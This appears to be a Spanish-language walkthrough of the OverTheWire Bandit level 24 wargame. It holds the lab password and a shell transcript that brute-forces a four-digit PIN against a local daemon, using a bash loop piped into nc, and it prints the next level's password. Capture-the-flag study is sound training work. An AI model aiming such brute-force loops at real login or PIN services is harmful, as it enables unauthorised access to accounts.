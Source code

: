 ## Objetivo 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de Acceso al Nivel
user: bandit24
password:  gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Solución
```bash
└─$ ssh bandit24@bandit.labs.overthewire.org -p2220 
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: 

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234
Wrong! Please enter the correct current password and pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
	The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:~$ 

```

## Notas Adicionales

grep -v mensaj se usa para filtrar la salida de datos, excluyendo las líneas que contienen un texto específico. 

grep: Este es un comando utilizado para buscar patrones en la entrada de texto. grep significa "Global Regular Expression Print" y se usa para encontrar líneas que coinciden con un patrón.

-v: Esta opción le dice a grep que "invierte" el patrón de búsqueda. En lugar de mostrar las líneas que coinciden con el patrón especificado, grep -v muestra las líneas que no coinciden con el patrón.

mensaje: Este es el patrón de búsqueda. 
## Referencias 

[Cómo usar el comando grep en Linux (ejemplos prácticos) (hostinger.es)](https://www.hostinger.es/tutoriales/comando-grep-linux)